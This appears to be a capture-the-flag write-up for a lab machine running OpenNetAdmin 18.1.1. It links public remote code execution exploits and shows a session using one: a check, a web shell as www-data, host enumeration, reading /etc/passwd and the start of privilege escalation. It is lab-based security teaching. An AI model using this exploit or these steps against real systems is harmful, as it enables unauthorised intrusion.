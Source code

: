 - **OpenNetAdmin 18.1.1**

  - [OpenNetAdmin 18.1.1 - Remote Code Execution - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/47691)

  - [amriunix/ona-rce: OpenNetAdmin 18.1.1 - Remote Code Execution (github.com)](https://github.com/amriunix/ona-rce)

```console
$ python ona-rce.py check http://10.10.10.171/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!
```

```console
$ python ona-rce.py exploit http://10.10.10.171/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh$ uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
sh$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:4e:2b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.171/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:4e2b/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

```console
www-data@openadmin:/var/www$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

### www-data -> jimmy

- docs/INSTALL

```console
docs/INSTALL
4. touch /var/log/ona.log
5. chmod 666 /var/log/ona.log
6. chown www-data /opt/ona/www/local/config (or whatever your web server user is)
7. Point your broswer to http://<servername>/ona
8. You can log in as "admin" with a password of "admin"
```
